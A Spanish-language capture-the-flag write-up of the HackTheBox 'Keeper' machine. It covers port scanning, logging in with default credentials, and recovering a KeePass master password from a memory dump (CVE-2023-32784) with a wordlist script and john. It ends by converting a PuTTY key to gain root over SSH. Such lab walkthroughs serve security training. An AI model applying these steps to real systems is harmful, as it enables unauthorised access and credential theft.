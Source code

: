 ```yaml
---
title: HackTheBox - Keeper
author: cotes
date: 2023-09-06 17:51:00 +0800
categories: [Writeup, HackTheBox, Easy]
tags: [Linux, 'Default Credentials', 'Keepass Dump (CVE-2023-32784)']
math: true
mermaid: true
image:
  path: /assets/images/HTB/Easy/Keeper/logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Keeper Machine Logo
---
```


### Fase de Reconocimiento 🧣

a. Enumeramos los puertos que están abiertos en la **`Máquina Keeper`**

* **`nmap -p- -sS -Pn -n <IP> -oG puertos`**

    ![](/assets/images/HTB/Easy/Keeper/01-ports.png)

b. Vemos las versiones de los servicios que se están ejecutando en los puertos**

* **`nmap -p<Ports> -sCV <IP> -oN versiones`**

    ![](/assets/images/HTB/Easy/Keeper/02-versions.png)


> Al visitar la página web veremos un host, el cual añadimos al archivo **`/etc/hosts`**
{: .prompt-info }

![](/assets/images/HTB/Easy/Keeper/03-web.png)


* Al visitar el host **tickets.keeper.htb** vemos el siguiente logo

    ![](/assets/images/HTB/Easy/Keeper/04-logo.png)

* Si buscamos por credenciales por defecto veremos **root:password**, después de autenticarnos buscamos usuarios válidos

    ![](/assets/images/HTB/Easy/Keeper/05-users.png)

* Seleccionamos al usuario **lnorgaard** y en su descripción obtendremos una contraseña válida para **SSH**

    ![](/assets/images/HTB/Easy/Keeper/06-pass.png)

d. Nos autenticamos en el servicio **SSH**

```bash
root@kali> ssh lnorgaard@10.10.11.227
lnorgaard@keeper:~$ 
```

### Escalada de Privilegios 💹

a. En nuestro directorio personal veremos una archivo **.zip**

```bash
lnorgaard@keeper:~$ ls -la
total 332856
<SNIP>
-rw-r--r-- 1 root      root       87391651 Aug 25 05:44 RT30000.zip
```

* Transferimos este archivo a nuestra máquina atacante para analizarlo

    ```bash
    lnorgaard@keeper:~$ python3 -m http.server 4444
    --------------------------------------------------------
    root@kali> wget http://<IP Keeper>:4444/RT30000.zip -o-
    root@kali> unzip RT30000.zip
    root@kali> ls
    -rw-r--r-- 1 root root 253395188 May 24 05:51 KeePassDumpFull.dmp
    -rw-r--r-- 1 root root      3629 Aug 23 12:43 passcodes.kdbx
    ```

b. Extraemos el hash del fichero **.kdbx** (**`keepass2john passcodes.kdbx > hash`**), como tenemos un archivo **.dmp** buscamos sobre al relacionado a **Keepass** y **.dmp**

* Nos encontramos con [CVE-2023-32784](https://github.com/vdohney/keepass-password-dumper), vemos que a través de un archivo **.dmp** de Keepass podemos llegar a obtener la contraseña en texto claro

    ```bash
    root@kali> dotnet run KeePassDumpFull.dmp 
    1.:     ●
    2.:     ø, Ï, ,, l, `, -, ', ], §, A, I, :, =, _, c, M, 
    3.:     d, 
    4.:     g, 
    5.:     r, 
    6.:     ø, 
    7.:     d, 
    8.:      , 
    9.:     m, 
    10.:    e, 
    11.:    d, 
    12.:     , 
    13.:    f, 
    14.:    l, 
    15.:    ø, 
    16.:    d, 
    17.:    e, 
    Combined: ●{ø, Ï, ,, l, `, -, ', ], §, A, I, :, =, _, c, M}dgrød med fløde
    ```
    > El primer caracter no fue capaz de extraerse y el segundo puede ser cualquiera entre **{ø, Ï, ,, l, `, -, ', ], §, A, I, :, =, _, c, M}**


    > En caso de obtener un error al ejecutar el comando anterior, modificamos el fichero **`keepass_password_dumper.csproj`** con esto:
    {: .prompt-tip }


    ```xml
    <Project Sdk="Microsoft.NET.Sdk">
        <PropertyGroup>
        <OutputType>Exe</OutputType>
        <TargetFramework>net6.0</TargetFramework>
        <ImplicitUsings>enable</ImplicitUsings>
        <Nullable>enable</Nullable>
        </PropertyGroup>
    </Project>
    ```

c. Creamos un script en **python** para crear un diccionario con posibles contraseñas basándonos en el output del script

```python
import string
possible_password = 'dgrød med fløde'

string_global = string.ascii_letters + string.digits + string.punctuation
posible_second_character = "øÏl`-',]§AI:=_cM"

for second in posible_second_character:
	for letter in string_global:
		partial = second + possible_password 
		print(letter + partial)
```

```bash
python3 script.py > possible_passwords.txt
```

* Crackeamos el hash usando el diccionario creado previamente

    ```bash
    root@kali> john hash -w=./possible_passwords.txt 
    ```

d. Con la credencial obtenida podemos leer el contenido del fichero **passcodes.kdbx**

![](/assets/images/HTB/Easy/Keeper/07-keepass.png)

* El usuario root tiene una clave **Putty** y para transformarla a pares de claves **SSH**, copiamos esta clave en una archivo **.ppk** y usamos este [blog](https://www.baeldung.com/linux/ssh-key-types-convert-ppk)

```bash
root@kali> puttygen file.ppk -O public-openssh -o id_rsa.pub
root@kali> puttygen file.ppk -O private-openssh -o id_rsa
root@kali> chmod 600 id_rsa
```

c. La clave **`id_rsa`** nos sirve para autenticarnos en el servicio **`SSH`** como el usuario root

```bash
root@kali> ssh root@<IP Keeper> -i id_rsa
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-78-generic x86_64)

root@keeper:~#
```